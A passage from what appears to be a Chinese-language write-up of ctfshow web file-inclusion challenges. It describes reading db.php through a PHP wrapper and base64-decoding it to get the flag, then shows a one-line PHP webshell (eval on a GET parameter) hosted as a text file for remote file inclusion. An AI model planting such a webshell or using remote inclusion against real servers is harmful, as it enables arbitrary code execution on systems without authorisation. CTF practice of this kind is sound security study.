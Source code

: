 base64解码，发现可疑文件`db.php`，再用伪协议读取`db.php`

![20](/medias/ctfshow-web/20.png)

base64解码`db.php`内容，拿到flag

![21](/medias/ctfshow-web/21.png)



### 远程文件包含（RFI）

包含远程服务器上的webshell文本内容

在博客上放了一个txt文件，方便直接文件包含

```php
<?php highlight_file(__FILE__);eval($_GET[1]);?>
```


